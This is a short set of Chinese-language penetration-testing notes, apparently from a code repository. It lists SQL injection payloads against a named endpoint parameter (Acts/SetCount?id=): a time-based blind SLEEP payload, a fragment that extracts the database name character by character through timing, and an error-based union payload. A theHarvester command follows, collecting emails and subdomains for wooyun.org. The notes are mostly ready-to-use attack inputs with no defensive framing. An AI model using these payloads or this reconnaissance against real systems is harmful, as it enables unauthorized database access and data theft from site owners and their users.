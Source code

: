 ## sql注入
### 注入点    Acts/SetCount?id=63200
```sql
' AND (SELECT * FROM (SELECT(SLEEP(5)))RING) and 'RING'='RING
```

```sql
(SELECT * FROM (SELECT(SLEEP((ASCII(MID(LOWER(DATABASE())," + str(i) + ",1))=" + str(ord(_str)) + ")*5)))RING)
```

```sql
' and if((1=2),1,(select 1 union select 2))#
```

## 信息收集
### The harvester   搜索引擎查找邮箱及子域名
```Bash
./theHarvester.py -d wooyun.org -l 500 -b baidu -v 
```
> 语法：theharvester -d 域名|公司名 -b 搜索来源（google，bing，pgp，linkedin等） 
